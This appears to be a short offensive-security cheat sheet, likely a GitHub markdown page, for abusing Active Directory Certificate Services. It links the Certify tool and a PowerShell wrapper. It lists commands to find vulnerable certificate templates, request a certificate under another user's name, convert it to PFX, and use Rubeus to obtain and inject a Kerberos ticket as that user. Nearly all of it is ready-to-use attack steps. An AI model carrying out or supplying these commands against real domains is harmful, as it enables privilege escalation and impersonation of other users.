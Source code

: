 ### source
https://github.com/GhostPack/Certify  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1  

### get information about certificate environment and find vulnerable certificates (enrollment rights)
```
Certify.exe find /vulnerable
Invoke-Certify -c "find /vulnerable"
```

### request certificate (altUser is the user to impersonate) - use /machine to switch into the current machine context
```
Certify.exe request /ca:"<fqdnCertificateServer>" /template:"<templateName>" /altname:"<altUser>"
```

### convert pem file to pfx file using linux
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <file>.pfx
```

### impersonate user
```
Rubeus.exe asktgt /user:<altUser> /certificate:<file>.pfx /ptt
```

